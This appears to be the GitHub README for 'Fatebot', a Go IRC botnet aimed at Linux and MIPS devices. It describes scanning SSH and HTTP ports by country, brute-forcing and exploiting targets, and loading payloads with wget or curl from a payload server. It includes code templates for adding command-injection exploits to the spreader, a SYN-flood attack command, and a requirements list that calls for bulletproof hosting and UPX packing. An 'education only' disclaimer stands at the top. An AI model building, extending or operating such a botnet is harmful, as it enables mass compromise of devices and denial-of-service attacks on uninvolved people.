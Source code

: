 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/Not my image, i just add Fate text.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot/releases/tag/0.8.0">
    		<img src="https://img.shields.io/badge/version-v0.7.4-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
	Bozer\Bulldozer (old name is R4bin) the author of Fatebot.
	<br>
	I have created this for education purpose only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
Spread feature of this bot will scan on default SSH and HTTP port. Option about scan feature in this bot is scan on CN, HK, KR and BR network or you can do a random scan or even you can add you own mods, all of these is up to you. This bot will brute-force attack and exploit to the target device, server, etc that's run linux or using mips x32 architecture. The loader will use "wget" or "curl" as a default loader for download the payload from FTP server or any option any server type that you can host the payload not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var ItalyNetwork = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will be use only 16 bit of the ip range (I'm still confused about subnet mask lol).
			
	2) Go to header.go file and scroll down to the map name "ScanMap".
	3) Custom your key and value. The value of map is structure, so you need to call a value in "Bot" structure and fill it.
	
		# Example:
		
			"-it": {				 # This key will be the command of a network arg in "?scan" command. "it" is short form italy.
				scanNetwork: ItalyNetwork, 	 # Fill the "scanNetwork" that's a value of "Bot" structure. To your network slice.
				scanOptFull: "\"ITALY\"",	 # Add full name of the network for a report process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... just save it.
	
# Add/Customize Exploit
The exploit that's use in this botnet mostly will be a command injection (tbh it's all of it lmao). You can add a new exploit if you want, but i recommend it to be an command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the feature exploit easy and felxible to configuration much as i can. If the 2 examples down below is not enough you can see more example in "internal/exploit.go".
	
	#############################################################
	### Example 1 Incase that you want to add new HTTP header ###
	#############################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a json.
		# Incase that your exploit need to inject on a post body just call an inject function --> b.inject("default or mips", true)
		
		
		# In this example will use default architecture so that's why we put "default" if your exploit use mips just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		
		# This is just a http header customization.
		# Incase that your exploit need to inject on a header just doing the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE1),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling Exploit structure function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by put the exploit strucutre and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	###################################################################
	### Example 2 Incase that you don't need to add new HTTP header ###
	###################################################################
	
	# This example is the same like the first example in a term of header and body config.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE2),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example you need to call "setupExploit" function but this example you don't need to call it.
										# Just call "exploitLauncher" function and in the second argument use "selfRequest" function instead of a newHeader value. 
										# Because we only use default header set and then put our exploit structure in to the "selfRequest" argument.
	}
	
# Attack Feature
Attack feature will play around with transport layer mostly, but also have an application and network layer too.
All of the attack vectors except "http" DDoS vectors will be random source port and windows size automatically but dst port will let bot herder config by them self.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, dos example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have move irc commands from github repositories to commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on you payload server, the bot that you have scaned will be only x32 arch.
	# The mips architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x2 Bulletproof IRC Server (Recommend x2 in case for handle a lot of connections or your server is a low spec)</li>
</ul>

<ul>
	<li>x1 Bulletproof IRC Backup Server (Optional)</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server (If it is a bulletproof hosting. It will be great for your self)</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
